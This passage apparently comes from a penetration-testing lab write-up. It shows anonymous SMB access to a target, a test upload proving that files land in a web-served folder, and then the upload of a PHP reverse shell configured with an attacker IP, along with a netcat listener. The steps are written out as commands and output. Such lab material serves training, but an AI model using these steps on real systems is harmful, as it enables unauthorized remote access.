 **SMB Access Results:**
```
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Nov 19 13:25:31 2024
  ..                                  D        0  Tue Nov 19 13:25:31 2024
```

Anonymous access granted with an empty share directory.

#### Step 4: Testing File Upload

Creating a test file to verify write permissions:

```bash
nano test.txt
# (create simple test file)
```

Uploading via SMB:

```bash
smb: \> put test.txt
putting file test.txt as \test.txt (0.7 kb/s)
```

Verifying web accessibility:
- Navigate to: `http://target2.ine.local/site-uploads/test.txt`
- Result: File is accessible through the web server

This confirms we can upload files to the SMB share that are then served by the web server - a critical vulnerability enabling remote code execution.

#### Step 5: PHP Reverse Shell Upload

Preparing the payload:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
nano php-reverse-shell.php
```

**Payload Configuration:**
```php
$ip = '192.205.121.2';   // Attacker IP
$port = 1234;            // Listener port
```

Uploading the reverse shell:

```bash
smbclient //target2.ine.local/site-uploads
smb: \> put php-reverse-shell.php
```

Setting up netcat listener:

```bash
nc -lnvp 1234
```
